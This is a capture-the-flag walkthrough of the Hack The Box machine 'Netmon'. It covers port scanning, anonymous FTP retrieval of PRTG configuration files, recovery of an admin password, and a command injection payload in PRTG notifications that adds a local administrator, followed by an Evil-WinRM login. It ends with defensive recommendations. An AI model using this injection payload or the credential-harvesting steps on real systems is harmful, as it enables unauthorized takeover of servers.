

# HTB - Netmon

**IP Address:** `10.10.10.152`  
**OS:** Windows Server  
**Difficulty:** Easy  
**Tags:** #FTP, #AnonymousLogin, #PRTG, #ConfigurationFiles, #CommandInjection, #WinRM

---
## Synopsis

Netmon is an easy Windows machine that highlights insecure default configurations and improper credential storage.  
An open FTP service allowed unauthenticated access to sensitive directories, including configuration files of **Paessler PRTG Network Monitor**.  
Extracted credentials enabled access to the web console, which contained a **command injection vulnerability** in the notification system.  
By abusing this flaw, a new privileged user was created, leading to a full system compromise.

---
## Skills Required

- Basic knowledge of FTP usage  
- Service enumeration with Nmap and WhatWeb  
- Familiarity with Windows services and WinRM  

## Skills Learned

- Identifying sensitive files in `ProgramData` via anonymous FTP  
- Extracting credentials from `.dat` and `.bak` configuration files  
- Exploiting command injection in **PRTG notifications**  
- Establishing access through **Evil-WinRM**

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Verify if the host is reachable using ICMP:

```bash
ping -c 1 10.10.10.152
```


The host responds, confirming it is reachable.

---
### 1.2 Port Scanning

Scan all TCP ports to identify services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.152 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format


Extract the open ports:

```bash
extractPorts allPorts
```


---
### 1.3 Targeted Scan

Perform a deeper scan with default scripts and service detection:

```bash
nmap -p21,80,135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 -sC -sV 10.10.10.152 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```


**Findings:**

| Port  | Service      | Version/Description              |
|-------|-------------|----------------------------------|
| 21    | FTP         | Microsoft FTP, anonymous login enabled |
| 80    | HTTP        | Paessler PRTG Network Monitor    |
| 135   | MS RPC      | RPC Endpoint Mapper              |
| 139   | NetBIOS     | NetBIOS Session Service          |
| 445   | SMB         | Microsoft Windows SMB            |
| 5985  | WinRM       | Remote Management                |
| 47001 | HTTP RPC    | Remote management over HTTP      |
| 49664+| Ephemeral   | Dynamic RPC services             |

---
## 2. Service Enumeration

### 2.1 FTP Access

The FTP service allowed **anonymous login**, granting access to user directories.  
Navigating through, the **user flag** was retrieved directly from the `Public` desktop:

```bash
ftp 10.10.10.152
```


✅ **User flag obtained**

---
### 2.2 SMB Enumeration

Tried to enumerate SMB shares with CrackMapExec:

```bash
crackmapexec 10.10.10.152
```


No useful results.

---
### 2.3 Web Enumeration

The web server is running **Paessler PRTG Network Monitor**:

```bash
whatweb http://10.10.10.152
```


- Detected version: **18.1.37.13946**  
- Default credentials (`prtgadmin:prtgadmin`) failed.  

Let's go to website:

****

Credentials doesn't work.

---
## 3. Exploitation

### 3.1 Credential Discovery via FTP

Returning to FTP, we explored hidden files:

```bash
ls -la
```


Inside `ProgramData`, configuration files were found:

- `PRTG Configuration.dat`  
- `PRTG_Configuration.old.bak`  


Downloaded both:

```bash
get "PRTG Configuration.dat"
get "PRTG Configuration.old.bak"
```


Let's compare the two files to check diferences:

``` bash
diff "PRTG Configuration.dat" "PRTG Configuration.old.bak"
```

From the backup configuration file, valid credentials were extracted:


These credentials doesn't work, buts this machines was created in 2019, so, probably there are company politics that change the password eacah year:

- **Username:** `prtgadmin`  
- **Password:** `PrTg@dmin2019`


Successful login.

---
### 3.2 Command Injection in Notifications

A known vulnerability in PRTG < 18.2.39 allows command injection in the **Notifications → Execute Program** field.  

Reference: [PRTG Command Injection Vulnerability](https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/)

Payload to create a new user:

```
test.txt;net user pentest p3nT3st! /add; net localgroup Administrators pentest /add
```

Inside PRTG → `Setup > Notifications`, a new notification was created:

  


Before execution, validated that the user `pentest` did not exist:

```bash
crackmapexec smb 10.10.10.152 -u 'pentest' -p 'p3nT3st!'
```


Ran the notification manually:

  


Confirmed user creation:


---
## 4. Foothold

Login via **Evil-WinRM** using the newly created account:

```bash
evil-winrm -i 10.10.10.152 -u 'pentest' -p 'p3nT3st!'
```


🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **Anonymous FTP Access** → Retrieved user flag and sensitive configuration files.  
2. **PRTG Configuration Leak** → Extracted valid admin credentials.  
3. **PRTG Command Injection** → Created a new privileged user via notifications.  
4. **WinRM Access** → Logged in as the new user and retrieved root flag.  

---
## Defensive Recommendations

- Disable **anonymous FTP** access to prevent data leakage.  
- Store configuration files securely with proper file permissions.  
- Regularly rotate credentials and avoid predictable default password patterns.  
- Keep monitoring tools like PRTG updated to the latest patched versions.  
- Restrict WinRM access to trusted administrative hosts only.
